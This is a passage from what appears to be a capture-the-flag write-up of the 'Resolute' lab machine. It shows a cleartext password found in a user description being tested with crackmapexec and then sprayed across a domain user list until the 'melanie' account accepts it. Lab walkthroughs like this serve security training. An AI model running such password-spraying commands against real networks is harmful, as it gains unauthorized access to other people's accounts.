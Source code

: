 Interesting, the **marko@megabank.local** have a description specifying a cleartext password.

# Initial Access

Now, we can try to get an access using the previously found password and the **marko** account.

```bash
$ crackmapexec smb 10.129.96.155 -d megabank.local -u marko -p 'Welcome123!'
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
```

No luck. But, maybe another user is configured with this password as password reuse is fairly common.

## Password Spraying

As stated by [MITRE](https://attack.mitre.org/techniques/T1110/003/), adversaries may use a single or small list of commonly used passwords against many different accounts to attempt to acquire valid account credentials. Password spraying uses one password, or a small list of commonly used passwords, that may match the complexity policy of the domain. Logins are attempted with that password against many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords.

Here we built a list of usernames and used it in a password spraying attack with [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) to see if it yields any results.

```bash
$ crackmapexec smb 10.129.96.155 -d megabank.local -u users.txt -p 'Welcome123!' --continue-on-success
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 

...[snip]...

SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE 
```

Great, we now have credentials the **melanie** domain account (`melanie:Welcome123!`). 

